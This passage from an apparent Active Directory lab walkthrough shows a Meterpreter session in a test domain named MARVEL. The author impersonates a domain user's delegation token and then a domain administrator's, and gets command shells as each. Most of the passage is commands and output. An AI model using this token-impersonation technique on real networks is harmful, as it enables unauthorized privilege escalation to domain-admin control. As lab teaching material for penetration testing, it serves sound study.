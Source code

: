 Since we have already logon to the machine as `fcastle`, we see there is a delegation token created for that user named `MARVEL\fcastle`. 

We can use this token to impersonate this user and spawn a new shell as them as shown below.

```bash
meterpreter > impersonate_token MARVEL\\fcastle
[+] Delegation token available
[+] Successfully impersonated user MARVEL\fcastle
meterpreter > shell
Process 5028 created.
Channel 2 created.
Microsoft Windows [Version 10.0.19045.5608]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
marvel\fcastle
```

Since this is a domain user, we cannot use this token to access the domain controller and perform any action. However, if a domain admin was logged in to this compromised machine while we are deploying the attack, we can impersonate them instead.

So we logout as `fcastle` and log in to the machine as the domain admin. Now when we list down the tokens, we can see a domain admin delegation token.

```bash
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-2
MARVEL\Administrator
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
Window Manager\DWM-2

Impersonation Tokens Available
========================================
No tokens available

meterpreter > impersonate_token MARVEL\\Administrator
[+] Delegation token available
[+] Successfully impersonated user MARVEL\Administrator
meterpreter > getuid 
Server username: MARVEL\Administrator
meterpreter > shell
Process 6700 created.
Channel 3 created.
Microsoft Windows [Version 10.0.19045.5608]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
marvel\administrator
```
